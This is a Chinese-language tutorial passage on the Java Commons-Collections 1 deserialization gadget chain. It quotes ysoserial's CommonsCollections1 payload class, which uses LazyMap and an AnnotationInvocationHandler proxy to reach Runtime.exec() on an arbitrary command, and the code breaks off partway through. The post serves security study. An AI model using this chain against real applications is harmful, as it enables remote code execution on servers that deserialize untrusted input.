 [toc]

# cc1链-接上回

ok，上回讲到了，cc1链的利用，使用的是`TransformedMap`，但在`ysoserial`中，用到的却是`LazyMap`：

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

    public InvocationHandler getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class},
                new Object[]{
                    "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class},
                new Object[]{
                    null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class}, execArgs),
            new ConstantTransformer(1)};

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

        final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

```